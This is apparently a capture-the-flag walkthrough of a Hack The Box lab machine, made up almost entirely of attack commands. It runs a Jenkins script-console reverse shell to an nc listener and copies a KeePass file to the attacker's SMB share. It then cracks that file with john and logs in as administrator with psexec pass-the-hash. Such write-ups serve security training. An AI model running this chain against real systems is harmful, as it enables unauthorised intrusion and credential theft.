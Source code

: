 ```
nmap -sS -sC -sV -T5 -Pn 10.10.10.63
http://10.10.10.63:50000/
Jetty 9.4.z-SNAPSHOT
http://10.10.10.63:50000/askjeeves/
Script Console - https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76#file-revsh-groovy
nc -lnvp 1234
C:\Users\kohsuke\Documents - CEH.kdbx
./smbserver.py s . -smb2support -username df -password df
net use \\10.10.14.6\s /u:df df
copy CEH.kdbx \\10.10.14.6\s\CEH.kdbx
keepass2john CEH.kdbx > hash.txt
john hash.txt -w=/usr/share/wordlists/rockyou.txt
keepassxc - Backup stuff
./psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 administrator@10.10.10.63
dir /r
powershell Get-Content -Path "hm.txt" -Stream "root.txt"
```

```
nmap -sS -sC -sV -T5 -Pn 10.10.10.63
```
![image](https://github.com/user-attachments/assets/d6384270-9642-4d95-8b0d-c23bf27eaf3a)

```
10.10.10.63
Input '
```
![image](https://github.com/user-attachments/assets/a59fd11c-2e7e-4193-97be-a5a9b13ed805)

![image](https://github.com/user-attachments/assets/7e80e98a-f388-475c-8b61-e671824c2fb0)

```
http://10.10.10.63:50000/
Jetty 9.4.z-SNAPSHOT
```
![image](https://github.com/user-attachments/assets/edbcca3b-a396-4ed8-bd71-7b0cb86b4607)

```
http://10.10.10.63:50000/askjeeves/
```
![image](https://github.com/user-attachments/assets/08705629-c3d3-46d2-ac60-839ceef69656)


```
Script Console
https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76#file-revsh-groovy
```
![image](https://github.com/user-attachments/assets/35f56ef6-df64-4a95-8847-53854f95cf57)

```
nc -lnvp 1234
```
![image](https://github.com/user-attachments/assets/36aa2208-bd91-4886-b4a9-834abddf346a)

![image](https://github.com/user-attachments/assets/b067c379-eaa2-43f3-bdd2-a654d79c9eb1)

```
C:\Users\kohsuke\Documents - CEH.kdbx
./smbserver.py s . -smb2support -username df -password df
net use \\10.10.14.6\s /u:df df
copy CEH.kdbx \\10.10.14.6\s\CEH.kdbx
```
![image](https://github.com/user-attachments/assets/c80afcce-8d01-4a0f-b4b9-7b9881b5c8d7)

![image](https://github.com/user-attachments/assets/4450ba19-f687-4b53-a5b6-2a13c816c165)

![image](https://github.com/user-attachments/assets/61661a41-6c09-4cf4-9cef-62c3889a1d1c)

```
keepass2john CEH.kdbx > hash.txt
john hash.txt -w=/usr/share/wordlists/rockyou.txt
```
![image](https://github.com/user-attachments/assets/59eedc8b-b643-435e-bcec-24efd25f5d0a)

![image](https://github.com/user-attachments/assets/7c1bc45a-b0a3-4b41-b509-95977780944c)

```
keepassxc
```
![image](https://github.com/user-attachments/assets/3f1639bd-593e-4a72-a92b-1b771d06e14b)

```
Backup stuff
./psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 administrator@10.10.10.63
```
![image](https://github.com/user-attachments/assets/afbdc1a8-095d-4e29-ac10-53b2aa0f5635)

![image](https://github.com/user-attachments/assets/87035c2e-6539-461d-bbfc-34a28489f536)

```
dir /r
powershell Get-Content -Path "hm.txt" -Stream "root.txt"
```
![image](https://github.com/user-attachments/assets/879b5159-06d8-4205-b90e-1d5aa938fd07)
